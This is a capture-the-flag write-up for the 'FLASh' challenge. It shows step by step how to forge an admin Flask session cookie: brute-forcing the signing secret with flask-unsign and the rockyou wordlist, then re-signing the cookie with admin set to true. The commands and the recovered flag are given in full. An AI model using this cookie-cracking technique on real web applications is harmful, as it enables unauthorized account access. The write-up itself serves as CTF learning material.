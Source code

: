# GHCTF-FLASh-challenge

## Challenge Description

**Name:** FLASh

**Points:** 455

**Description:** FLASh FLASh ...f denia Kifou maKech.

**Challenge link:** [FLASh challenge link](http://greenhat.microclub.info:5620/login)

**Goal:** Gain admin access by manipulating the JWT token.

## Tools and Techniques

**Tools:** flask-unsign, JSON Web Tokens (JWT) Decoder

**Techniques:**

- JWT decoding and encoding
- Brute-forcing secret key
- Cookie manipulation

## Solution

### Initial Approach

**Step 1:** Inspected the webpage and found a JWT token in the cookies.

**Step 2:** Decoded the JWT token using an online JWT decoder.

Decoded JWT:

```
{

'admin': False,

'username': 'guest'

}
```

**Step 3:** Tried to modify the payload directly and replace the token, but it was rejected by the server due to an invalid signature.

### Detailed Solution

- **Step 1:** Identify the need to brute-force the secret key.
  
  Based on the challenge hint "FLASh", it suggested the use of the Flask framework, which uses a secret key to sign tokens.

- **Step 2:** Install flask-unsign.

  Open Cmd and run:

  ```pip install flask-unsign```

- **Step 3:** Decode the JWT using flask-unsign.
  
  Command :

  ```flask-unsign --decode --cookie "eyJhZG1pbiI6ZmFsc2UsInVzZXJuYW1lIjoiZ3Vlc3QifQ.ZqOMzQ.SpPqBdMSQC6ojJADF2OrON3DVbc"```

   Decoded JWT :

  `{'admin': False, 'username': 'guest'}`
  
- **Step 4 :** Download the [rockyou.txt wordlist](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).
  
- **Step 5:** Use flask-unsign to brute-force the JWT using the rockyou.txt wordlist.

  **Initial Attempt to Brute-force the Secret Key:**
  
   Command :

  ```flask-unsign --unsign --wordlist "C:\Users\PC\Desktop\rockyou.txt" --cookie "eyJhZG1pbiI6ZmFsc2UsInVzZXJuYW1lIjoiZ3Vlc3QifQ.ZqOMzQ.SpPqBdMSQC6ojJADF2OrON3DVbc"```

   Result: Encountered an error indicating the need to use the --no-literal-eval argument.

   **Retrying with the Correct Argument:**

   Command : 

   ```flask-unsign --unsign --wordlist "C:\Users\PC\Desktop\rockyou.txt" --cookie "eyJhZG1pbiI6ZmFsc2UsInVzZXJuYW1lIjoiZ3Vlc3QifQ.ZqOMzQ.SpPqBdMSQC6ojJADF2OrON3DVbc" --no-literal-eval```

   This successfully brute-forced the secret key, avoiding the previous error. Secret key : `'helloall'`

- **Step 6:** Create a new token with the admin changed to "True"

   Command :

   ```flask-unsign --sign --cookie "{'admin': True, 'username': 'guest'}" --secret 'helloall'```

   New Token :

   ```eyJhZG1pbiI6dHJ1ZSwidXNlcm5hbWUiOiJndWVzdCJ9.ZqOYOw.6hfVRtWwsvQVfCg8kSkCDxQZkWU```

- **Step 7:** Replace the original token in the browser’s cookies with the new token.
  
- **Step 8:** Reload the webpage to verify admin access.

   Successfully logged in as an admin and obtained the flag.

## The Flag :

# microCTF{54y_H3ll0_0nLy_t0_Y0ur_Fr13nd5_H!h!h4}
  

  

